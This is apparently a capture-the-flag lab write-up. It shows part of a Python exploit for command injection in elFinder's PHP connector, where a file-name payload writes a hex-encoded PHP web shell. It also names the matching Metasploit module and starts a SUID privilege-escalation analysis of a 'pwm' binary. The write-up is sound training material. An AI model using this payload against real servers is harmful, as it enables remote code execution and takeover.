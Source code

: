 ```python
                sys.exit("\nSo long brother....")
    else:
        print("[*] Cannot reliably check exploitability T_T.")


if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python exploit.py http://IP:PORT/elFinder/ [IMAGE FILE]")
        print("""Note: 
              1. Copy or make an image file in the current working directory.
              2. Ensure that 'image_input.jpg' is literal file name for the image file.
              3. Ensure the image file is present in the current working directory. :)""")
        sys.exit(0)

    url = sys.argv[1]
    payload = "image_input.jpg;echo 3c3f7068702073797374656d28245f4745545b2263225d293b203f3e0a | xxd -r -p > image_input.php;echo image_input.jpg"

    print("[*] Uploading sus image...")
    hash = upload(url, payload)
    print("[*] Executing the payload...")
    imgRotate(url, hash)
    shell(url)
```

We can either run this code or use the Metasploit exploit located at: `exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241202145921.png)

Once we've set everything, we got a shell, let's perform privilege escalation
# PRIVILEGE ESCALATION
---

To begin with, I used `find / -perm -u=s -type f 2>/dev/null` and got this output:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241202150045.png)

We found something interesting a `/usr/sbin/pwm` file, asking Chatgpt for help related to that, it gave this path to perform the privilege escalation:

```ad-summary

First, we know that when we execute `id` we get this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241202150257.png)

If we read the strings from our file, we see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241202150408.png)
We can see that it uses `id` command then it uses this regex `uid=%*u(%[^)])` to get the username part in `uid` . We can also see here that it appends the username between `/home/<username>/.passwords` and getting that `.passwords` file from that directory

Peeking at the home directory of user `think` , we can see that he have that password file but we have no read permission to it.

So, we got the following observations: 

1. SetUID and SetGID Binary (`/usr/sbin/pwm`):

- This means that the binary runs with elevated privileges.
```